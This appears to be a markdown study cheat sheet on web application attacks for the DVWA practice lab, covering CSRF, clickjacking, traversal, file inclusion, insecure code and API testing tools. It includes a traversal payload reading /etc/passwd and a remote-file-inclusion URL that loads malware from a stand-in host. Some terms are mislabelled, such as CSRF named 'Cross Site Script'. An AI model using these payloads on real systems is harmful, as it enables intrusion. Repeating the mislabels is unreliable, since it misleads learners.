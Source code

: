<h5><em>ver: Sep-2022</em></h5>

<h3>Server Side Attack</h3>

Refer to https://cheatsheetseries.owasp.org/Glossary.html

---

<h4>Cross Site Script (CSRF/XSRF)</h4>

-   CSRF = One-click attacks or session riding
-   Use server side trust to clients

```sh
# URL manipulation example on "DVWA"
http://xxx.xxd.xxd.xxx:port/vulnerabilities/csrf/?password_new=newpassword&password_conf=newpasword &Change=Change#

```

---

<h4>Clickjacking (UI redress attacks)</h4>

-   Use multiple transparent or opaque layers to induce a user into clicking on a web button or link
-   Combination of CSS stylesheets, iframes, and text boxes to fool ther user into entering information or clicking

---

<h4>Exploiting Security Misconfiguration</h4>

<h5><br/>Directory Traversal</h5>

-   Use dot-dot-slash(../) to go outside of the web root folder

```sh
# URL manipulation example on "DVWA"
http://xxx.xxd.xxd.xxx:port/vulnerabilities/?page=../../../../../etc/passwd

# URL encoding
%2e%2e%2f = %2e%2e/ = ..%2f = %2e%2e%5c

```

<h5><br/>Cookie Manipulation Attacks (Stored DOM-based Attackks)</h5>

-   Possible when vulerable applications store user input and then embed that input in a response within a part of the DOM
-   Attacker uses a JavaScript string (or other script) to trigger the DOM-based vulnerability to write controllable data in tho the value of a cookie

---

<h4>File Inclusion Vulnerabilities</h4>

<h5><br/>Local File Inclusion Vulnerabilities (LFI)</h5>

-   Occurs when a web application allows a user to submit input into files or upload files to the server
-   Attacker reads and execute the file on the victiom's system
-   Can be critical when the web application runs with high privilege such as root privilege

<h5><br/>Remote File Inclusion Vulnerabilities (RLFI)</h5>

-   Similar to LFI, however attacker can execute code hosted on his/her won system

```sh
# URL manipulation example on "DVWA". Host malicious script or malware
http://xxx.xxd.xxd.xxx:port/vulnerabilities/fi/?page=http://malicious.site.org/malware.html

```

---

<h4>Ensecure Code Practices</h4>

<h5><br/>Comments in Source Code</h5>

-   Too much information, such as details about a system password, API credeitials, or other sensitive information, could be leveraged by attackers
-   Refer to https://cwe.mitre.org/data/definitions/615.html

<h5><br/>Hard coded credentials</h5>

-   Attackers can completely compromise and application or the underlying system
-   Refer to https://cwe.mitre.org/data/definitions/798.html

<h5><br/>Race Conditions (Time of check to time of use: TOCTOU)</h5>

-   Race condition occures when a system or an application attemtps to perform two or more operations at the same time
-   The attack complexity is very high since there is a small window of time between when a security control takes effect and when the attacker is performed

---

<h4>Unprotected APIs</h4>

Refer to https://cwe.mitre.org/data/definitions/227.html

-   Simple Object Access Protocol (SOAP)

    -   XML and standard-based web services access protocol developed to replace Distributed Componet Object Model (DCOM) and Common Object Request Broker Architecture (CORBA)
    -   Refer to https://www.w3.org/TR/soap/

-   Representational State Transfer (REST)

    -   JSON based API that easier to use than SOAP
    -   Uses standards such as Swagger and OpenAPI Speicication (https://www.openapis.org/)

-   GraphQL

    -   A query language for APIs that provide many developer tools
    -   Refer to https://graphql.org/code/

-   Swagger (OpenAPI)

    -   Modern framework of API documentation and development that is the basis of the OpenAPI Specification (OAS)
    -   Refer to https://swagger.io/ and https://github.com/OAI/OpenAPI-Specification

-   Web Services Description Language (WSDL)

    -   XML-based language that is used to document the fucntionality of a web service
    -   Refer to https://www.w3.org/TR/2007/REC-wsdl20-primer-20070626/

-   Web Application Description Language (WADL)

    -   XML-based language for describing web applications
    -   Refer to https://www.w3.org/Submission/wadl/

<h6>API testing: Option-1</h6>
1. Collect full requests by using a proxy such as Burp Suite or OWASP ZAP since REST, SOAP, and other API services use more than GET parameters
2. Look for nonstandard parameters and for abnormal HTTP headers
3. When analysizes, determine whether a URL segment has a repeating pattern across other URLs (can include nomber or an ID, dates, and other valuable information)
4. Inspect the results and look for structured parameter values in JSON, XML, or even nonstandard structures

<h6>API testing: Option-2</h6>

1. Use fuzzing (https://owasp.org/www-community/Fuzzing)

---

<h4>Hidden Elements</h4>

-   It is possible to tamper with the parameter values stored by a web application in hiddden form fields

```html
<input type="hidden" id="123" name="price" value="100.00" />
```

---

<h4>Lack of Code Signing</h4>

-   Code signing (image signing) involves adding a digital signature to software and applications to verify taht the application, operating system, or any software has not been modified since it was signed
-   Similar to the process used for SSL/TLS
-   Subresource Integrity (SRI): A security feature that allows you to provide a hash of a file fetch by a web browser and verifies file integrity

---

<h4>Additional Web Application Hacking Tools</h4>

-   Many ethical and malicious hackers use web proxies to exploit vulnerabilities in web applicaitons
-   Web proxy: Typically installed in the attacker's system to intercept, modify, or delete transactions

<h6>Burp Suite</h6>

-   Refer to https://portswigger.net/burp

<h6>OWASP ZAP</h6>

-   A collection of tools including proxy, automated scanning, fuzzing, and other capabilities that can be used to find vulnerabilities in web applications
    -   gobuster: Similar to DirBuster that perform active reconnaissance of a web application (https://github.com/OJ/gobuster)
    -   ffuf: Very fast web fuzzer (https://github.com/ffuf/ffuf)
    -   foroxbuster: A reconnaissance fuzzer (https://github.com/epi052/feroxbuster)
-   Refer to https://www.zaproxy.org/

---
